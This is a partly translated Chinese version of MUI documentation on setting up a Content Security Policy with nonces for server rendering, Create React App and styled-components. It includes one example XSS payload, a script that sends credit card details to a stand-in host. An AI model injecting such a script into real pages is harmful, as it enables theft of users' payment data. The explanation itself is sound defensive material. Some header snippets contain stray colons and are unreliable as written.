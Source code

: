 # 内容安全策略（CSP）

<p class="description">本节介绍了建立 CSP 的详细信息。</p>

## 什么是 CSP，为什么它有用？

CSP 通过要求开发人员检索其资产的来源并将其列入白名单来缓解跨站点脚本（XSS）攻击。 此列表作为服务器的头部（heade）返回。 例如，假设您有一个托管在 `https://example.com` 的网站 CSP 头部 `default-src：'self';` 将仅加载 `https://example.com/*` 的所有资源，并否认所有其他人。 如果您的网站的某个部分容易受到 XSS 的影响而未显示未转义的用户输入，则攻击者可以输入以下内容：

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

此漏洞允许攻击者执行任何操作。 但是，若使用安全的 CSP 头部，浏览器将不会加载此脚本。

您可以在 [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 阅读有关 CSP 的更多信息。

## 如何实现 CSP？

### 服务端渲染（SSR）

To use CSP with MUI (and emotion), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

CSP nonce 是一个 Base 64 编码的字符串。 你可以生成这样一个：

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

你必须使用 UUID 4，因为它可以生成一个 **不可预测** 的字符串。 接下来您可以将此随机数应用于 CSP 头部。 应用了随机数时，CSP 头部可能看起来像这样：

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

你应该在服务端的 `<style>` 标签中传递一次性加密数字（nonce）。

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

然后，您必须将此随机数传递给 JSS ，以便将其添加到后续 `<style>` 标记中。

> Note, if you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from emotion and add the `prepend: true` option.

```js
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Create React App (CRA)

根据 [Create React App 文档](https://create-react-app.dev/docs/advanced-configuration/)，Create React App 会在生产构建过程中默认将运行时脚本动态嵌入到 index.html 中。 这需要在你的每次部署时都要在 CSP 中设置一个新的哈希值。

要将 CSP 与 Create React App 的项目一起使用，你需要在用于生产构建的 `.env` 文件中设置 `INLINE_RUNTIME_CHUNK=false`。 这将像往常一样导入运行时脚本，而不是直接嵌入它，就可以避免在每次部署时都需要设置一个新的哈希值的情况了。

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
